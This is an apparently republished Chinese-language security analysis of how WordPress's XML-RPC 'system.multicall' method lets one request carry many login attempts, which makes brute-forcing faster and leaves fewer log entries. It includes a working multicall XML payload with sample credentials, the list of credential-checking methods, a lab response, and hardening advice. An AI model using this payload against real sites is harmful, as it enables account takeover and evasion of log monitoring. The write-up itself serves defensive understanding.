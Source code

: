 # WordPress 利用 XMLRPC 高效爆破 原理分析

**By: RickGray (知道创宇404安全实验室)**

xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日[SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)发布文章介绍了如何利用 xmlrpc 调用接口中的`system.multicall`来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，极大的压缩请求次数，在一定程度上能够躲避日志的检测。

0x01 原理分析
=========

* * *

WordPress 中关于 xmlrpc 服务的定义代码主要位于`wp-includes/class-IXR.php`和`wp-includes/class-wp-xmlrpc-server.php`中。基类 IXR_Server 中定义了三个内置的调用方法，分别为`system.getCapabilities`，`system.listMethods`和`system.multicall`，其调用映射位于`IXR_Server`基类定义中：

```
function setCallbacks()
{
    $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this->callbacks['system.listMethods'] = 'this:listMethods';
    $this->callbacks['system.multicall'] = 'this:multiCall';
}

```

而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：

```
function __construct( $callbacks = false, $data = false, $wait = false )
{
    $this->setCapabilities();
    if ($callbacks) {
        $this->callbacks = $callbacks;
    }
    $this->setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) {
        $this->serve($data);
    }
}

```

再来看看`system.multicall`对应的处理函数：

```
function multiCall($methodcalls)
{
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) {
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') {
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        } else {
            $result = $this->call($method, $params);
        }
        if (is_a($result, 'IXR_Error')) {
            $return[] = array(
                'faultCode' => $result->code,
                'faultString' => $result->message
            );
        } else {
            $return[] = array($result);
        }
    }
    return $return;
}

```

可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。

这样一来，就可以将500种甚至是10000种帐号密码爆破尝试包含在一次请求中，服务端会很快处理完并返回结果，这样极大地提高了爆破的效率，利用多重调用接口压缩了请求次数，10000种帐号密码尝试只会在目标服务器上留下一条访问日志，一定程度上躲避了日志的安全检测。

通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：

```
if ( !$user = $this->login($username, $password) )
    return $this->error;

```

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下：

```
wp.getUsersBlogs, wp.newPost, wp.editPost, wp.deletePost, wp.getPost, wp.getPosts, wp.newTerm, wp.editTerm, wp.deleteTerm, wp.getTerm, wp.getTerms, wp.getTaxonomy, wp.getTaxonomies, wp.getUser, wp.getUsers, wp.getProfile, wp.editProfile, wp.getPage, wp.getPages, wp.newPage, wp.deletePage, wp.editPage, wp.getPageList, wp.getAuthors, wp.getTags, wp.newCategory, wp.deleteCategory, wp.suggestCategories, wp.getComment, wp.getComments, wp.deleteComment, wp.editComment, wp.newComment, wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, wp.getPostFormats, wp.getPostType, wp.getPostTypes, wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, blogger.newPost, blogger.editPost, blogger.deletePost, mw.newPost, mw.editPost, mw.getPost, mw.getRecentPosts, mw.getCategories, mw.newMediaObject, mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories

```

这里是用参数传递最少获取信息最直接的`wp.getUsersBlogs`进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：

```
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param>
    <value><array><data>
      <value><struct>
        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
        <member><name>params</name><value><array><data>
          <value><string>admin</string></value>
          <value><string>admin888</string></value>
        </data></array></value></member>
      </struct></value>

      <value><struct>
        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
        <member><name>params</name><value><array><data>
          <value><string>guest</string></value>
          <value><string>test</string></value>
        </data></array></value></member>
      </struct></value>
    </data></array></value>
  </param></params>
</methodCall>

```

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：

```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><array><data>
  <value><array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>WordPress 4.3.1</string></value></member>
  <member><name>xmlrpc</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php</string></value></member>
</struct></value>
</data></array></value>
</data></array></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>用户名或密码不正确。</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

```

从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。

0x02 防护建议
=========

* * *

最新版 WordPress(4.3.1) 中仍存在该问题。多重调用（multicall）属于 xmlrpc 的标准，为了防止攻击者利用此点对网站发起爆破攻击，给出以下防护建议：

1.  通过配置 Apache、Nginx 等 Web 服务器来限制 xmlrpc.php 文件的访问;
2.  在不影响站点运行的情况下可以直接删除 xmlrpc.php 文件;
3.  从官方插件库中安装[Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/)并启用;
4.  添加代码`add_filter('xmlrpc_enabled', '__return_false');`至 WordPress 配置文件`wp-config.php`;

0x03 参考链接
=========

* * *

*   [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)
*   [https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/](https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/)
*   [http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html](http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html)

原文出处：[http://blog.knownsec.com/2015/10/wordpress-xmlrpc-brute-force-amplification-attack-analysis/](http://blog.knownsec.com/2015/10/wordpress-xmlrpc-brute-force-amplification-attack-analysis/)